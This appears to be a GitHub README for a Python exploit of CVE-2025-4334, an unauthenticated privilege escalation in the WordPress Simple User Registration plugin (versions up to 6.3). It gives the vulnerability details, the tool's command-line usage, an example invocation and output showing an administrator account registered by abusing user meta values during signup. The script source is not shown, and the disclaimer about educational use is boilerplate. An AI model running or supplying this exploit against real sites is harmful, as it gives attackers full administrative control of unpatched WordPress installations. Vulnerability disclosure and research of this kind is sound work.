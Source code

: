 # 🔓 Simple User Registration <= 6.3 - Unauthenticated Privilege Escalation

## 📄 Description

The **Simple User Registration** plugin for WordPress is vulnerable to **Privilege Escalation** in all versions up to, and including, **6.3**.  
This is due to insufficient restrictions on user meta values that can be supplied during registration.  
This makes it possible for **unauthenticated attackers** to register as an **administrator**.

---

## 🛡️ Vulnerability Details

- **Type**: Improper Privilege Management  
- **CVE**: CVE-2025-4334  
- **CVSS Score**: 9.8 (Critical)  
- **CVSS Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`  
- **Publicly Published**: June 25, 2025  
- **Last Updated**: June 26, 2025  

---

## 🛠️ Exploit Script

The exploit automates privilege escalation via form submission using extracted nonce, form ID, and referer.

### ⚙️ Usage

```bash
python CVE-2025-4334.py -h
```

```
usage: CVE-2025-4334.py [-h] -u URL --form FORM

Simple User Registration <= 6.3 - Unauthenticated Privilege Escalation - by Khaled Alenazi (Nxploited)

options:
  -h, --help     show this help message and exit
  -u, --url URL  Base WordPress URL (e.g. http://localhost/wordpress/)
  --form FORM    Full URL of the page that contains the registration form
```

---

## 🌐 URL Explanation

- `-u` → Base WordPress installation (e.g. `http://localhost/wordpress/`)  
- `--form` → Full URL to the vulnerable registration form (e.g. `http://localhost/wpr/default-registration/`)

---

## 🧪 Example

```bash
python CVE-2025-4334.py -u http://localhost/wordpress/ --form http://localhost/wpr/default-registration/
```

#### ✅ Result

```
[i] Extracted Nonce   : ffcf0140a8
[i] Extracted Form ID : 76
[i] Referer Path      : /wordpress/index.php/2025/06/25/33/
[i] HTTP Response Code : 200
[i] Server Response    : {"user_id":13,"status":"success","signup":"signup","message":"Registration Done !\r\nUser Register Email not sent, please contact admin","redirect_url_signup":null}

[+] Exploitation Successful
[+] Username   : Nxploitedadmin
[+] First Name : Nxploitedadmin
[+] Last Name  : Nxploitedadmin
[+] Email      : test@admin.ksa
[+] Password   : nxp1234
[+] Role       : administrator

Exploit By : Khaled_alenazi (Nxploited)
```

---

## ⚠️ Disclaimer

This script is provided for **educational and research purposes only**.  
The author is **not responsible** for any misuse or damage caused by this tool.

---

*By: Khaled_alenazi (Nxploited)*
